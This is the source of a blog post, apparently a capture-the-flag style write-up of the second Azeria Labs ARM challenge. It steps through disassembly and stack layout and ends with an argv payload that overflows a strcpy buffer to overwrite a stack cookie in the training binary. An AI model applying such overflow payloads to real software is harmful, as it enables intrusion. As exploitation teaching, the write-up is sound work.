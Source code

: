 ```yaml
---
layout: post
title: "Smashing ARM Stack for Fun - Part II"
---
```


This is going to be a fast moving post, directly to the details,
about exploiting the [second Arm challenge](https://github.com/azeria-labs/ARM-challenges)<!--more-->


## Распределение стека

```nasm
 ► 0x104b0 <main>       push   {fp, lr}
   0x104b4 <main+4>     add    fp, sp, #4
   0x104b8 <main+8>     sub    sp, sp, #0x50
   0x104bc <main+12>    str    r0, [fp, #-0x50]
   0x104c0 <main+16>    str    r1, [fp, #-0x54]
```

0x58 bytes are allocated where 0x54 bytes belong to the current stack
frame.

The first two words are allocated by `push` and the rest by `sub`.

```python
100:00> ;! M[sp:]   # <-- from sp to the end of the mapped page
[
        --
        |   \xee\xee\xee\xee   == r1
        |   \xdd\xdd\xdd\xdd   == r0
  0x50  |   \x00\x00\x00\x00
        |   ... 16 more rows full of zeros ...
cookie -|-->\x00\x00\x00\x00
        --
   0x8  |   \xbb\xbb\xbb\xbb   == fp
 fp ----|-->\xaa\xaa\xaa\xaa   == lr
        --
] <-- base of stack
```

## Проверка аргументов

{% marginnote
'`errx` prints a message to the standard error output and then makes
the program exit.
<br />
See [man errx](https://linux.die.net/man/3/errx)
' %}

`argc` is expected to be 1 otherwise the program will **not** jump
and `errx` will be called.

```nasm
   0x104c4 <main+20>    ldr    r3, [fp, #-0x50]
   0x104c8 <main+24>    cmp    r3, #1
   0x104cc <main+28>    bne    #main+44 <main+44>

   0x104d0 <main+32>    mov    r0, #1
   0x104d4 <main+36>    ldr    r1, [pc, #0x5c]
   0x104d8 <main+40>    bl     #errx@plt <errx@plt>

 ► 0x104dc <main+44>    mov    r3, #0
```

{% marginnote
'As mentioned in a [previous post](/book-of-gehn/articles/2021/01/14/Smashing-ARM-Stack-for-Fun-Part-I.html),
when `pc` is used for indexing
the `pc` is the address of the current about-to-be-executed instruction
*plus* 8 bytes.
' %}

Let's see  `ldr r1, [pc, #0x5c]` which translates to 0x104d4 + 0x5c + 0x8:

```nasm
pwndbg> x/1wx 0x10538
0x10538 <main+136>:     0x000105bc

pwndbg> x/1bs 0x000105bc
0x105bc:        "please specify an argument\n"
```

## Переполнение буфера

A cookie is stored in the stack with a value of zero. Then `argv`
is loaded into `r3` or `&argv[0]` if you want.

The `add` instruction moves `argv` pointer 4 bytes forward. In other
words, `r3` *points* to `argv[1]`.

Finally the pointer is dereferenced and `r3` *has* the `argv[1]`
pointer.

```nasm
 ► 0x104dc <main+44>    mov    r3, #0
   0x104e0 <main+48>    str    r3, [fp, #-8]
   0x104e4 <main+52>    ldr    r3, [fp, #-0x54]
   0x104e8 <main+56>    add    r3, r3, #4
   0x104ec <main+60>    ldr    r3, [r3]
```

Like in the [previous challenge](/book-of-gehn/articles/2021/01/14/Smashing-ARM-Stack-for-Fun-Part-I.html),
begin of the buffer for `strcpy`
is 4 bytes below the pushed arguments and has a size of 64 bytes
(0x48 bytes minus 4 bytes for the pushed `fp` and 4 bytes for the
cookie)

```nasm
   0x104f0 <main+64>    sub    r2, fp, #0x48
```

```python
100:20> ;! M[sp:]
[
        --
        |   \xee\xee\xee\xee   == r1
        |   \xdd\xdd\xdd\xdd   == r0
  0x50  |   \x00\x00\x00\x00
buf ----|-->AAAA
        |   BBBB
        |   CCCC
        |   ... 13 more rows full of zeros ...
cookie -|-->\x00\x00\x00\x00
        --
   0x8  |   \xbb\xbb\xbb\xbb   == fp
 fp ----|-->\xaa\xaa\xaa\xaa   == lr
        --
]
```

Finally the call to `strcpy` is made:

```nasm
   0x104f4 <main+68>    mov    r0, r2
   0x104f8 <main+72>    mov    r1, r3
   0x104fc <main+76>    bl     #strcpy@plt <strcpy@plt>
```

## Сравнение

```nasm
 ► 0x10500 <main+80>     ldr    r3, [fp, #-8]
   0x10504 <main+84>     ldr    r2, [pc, #0x30]
   0x10508 <main+88>     cmp    r3, r2
   0x1050c <main+92>     bne    #main+108 <main+108>
```

The cookie is loaded from the stack and compared with the value
stored in the code segment at 0x10504 + 0x30 + 0x8:

```nasm
pwndbg> x/1wx 0x1053c
0x1053c <main+140>:     0x61626364
```

The good old `'abcd'` or `'dcba'` to be more precise due the endianess
of the machine.

A byte by byte inspection may make this more explicit:

```nasm
pwndbg> x/4bx 0x1053c
0x1053c <main+140>:     0x64    0x63    0x62    0x61
```


## Наша цель (branch at 0x1050c **not** taken):

```nasm
pwndbg> pdisass 0x10510
 ► 0x10510 <main+96>     ldr    r0, [pc, #0x28]
   0x10514 <main+100>    bl     #puts@plt <puts@plt>

   0x10518 <main+104>    b      #main+124 <main+124>

pwndbg> x/1wx 0x10540
0x10540 <main+144>:     0x000105d8

pwndbg> x/1bs 0x000105d8
0x105d8:        "you have correctly got the variable to the right value"
```

## Неудача (branch at 0x1050c **is** taken):

```nasm
pwndbg> pdisass &main+108 10
 ► 0x1051c <main+108>    ldr    r3, [fp, #-8]
   0x10520 <main+112>    ldr    r0, [pc, #0x1c]
   0x10524 <main+116>    mov    r1, r3
   0x10528 <main+120>    bl     #printf@plt <printf@plt>

pwndbg> x/1wx 0x10544
0x10544 <main+148>:     0x00010610

pwndbg> x/1bs 0x00010610
0x10610:        "Try again, you got 0x%08x\n"
```

## Эпилог

We reach here regardless of which path the branch at 0x1050c jumped to:

```nasm
pwndbg> pdisass &main+124
 ► 0x1052c <main+124>    mov    r0, r3
   0x10530 <main+128>    sub    sp, fp, #4
   0x10534 <main+132>    pop    {fp, pc}
```

## Атака

```shell
pi@raspberrypi:~$ ./stack1 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAdcba
you have correctly got the variable to the right value
```

<!-- stuff -->

<script>
function fix_asm_syntax(ev) {
    // pip install selectq
    //   cond = (val('text()') == 'blt') | (val('text()') == 'b') | (val('text()').startswith('mov')) | ...
    //   div = sQ.select('div', attr('class').contains('language-nasm'))
    //   xpath = div.select('span', cond)

    // Make some instructions "keywords"
    var xpath = ".//div[contains(@class,'language-nasm')]//span[(((text() = 'blt') or (text() = 'b')) or starts-with(text(), 'mov')) or starts-with(text(), 'ldm') or starts-with(text(), 'stm') or starts-with(text(), 'ldr') or starts-with(text(), 'bx') or starts-with(text(), 'bl') or starts-with(text(), 'bne') or starts-with(text(), 'mvn')]";
    var elems_iter = document.evaluate(xpath, document, null, XPathResult.ANY_TYPE, null);

    var elems = [];
    var el = elems_iter.iterateNext();
    while (el) {
        elems.push(el);
        el = elems_iter.iterateNext();
    }
    for (var i = 0; i < elems.length; i++) {
        var el = elems[i];
        el.classList.add('k'); // keyword
        el.classList.remove('n'); // noun
    }

    // Remove the 'err' class
    var xpath = ".//div[contains(@class,'language-nasm')]//span[@class='err']"
    var elems_iter = document.evaluate(xpath, document, null, XPathResult.ANY_TYPE, null);

    var elems = [];
    var el = elems_iter.iterateNext();
    while (el) {
        elems.push(el);
        el = elems_iter.iterateNext();
    }
    for (var i = 0; i < elems.length; i++) {
        var el = elems[i];
        el.classList.remove('err'); // syntax error
    }

    // Remove the 'err' class
    var xpath = ".//div[contains(@class,'language-python')]//span[@class='err']"
    var elems_iter = document.evaluate(xpath, document, null, XPathResult.ANY_TYPE, null);

    var elems = [];
    var el = elems_iter.iterateNext();
    while (el) {
        elems.push(el);
        el = elems_iter.iterateNext();
    }
    for (var i = 0; i < elems.length; i++) {
        var el = elems[i];
        el.classList.remove('err'); // syntax error
    }
}

document.addEventListener('DOMContentLoaded', fix_asm_syntax);
</script>
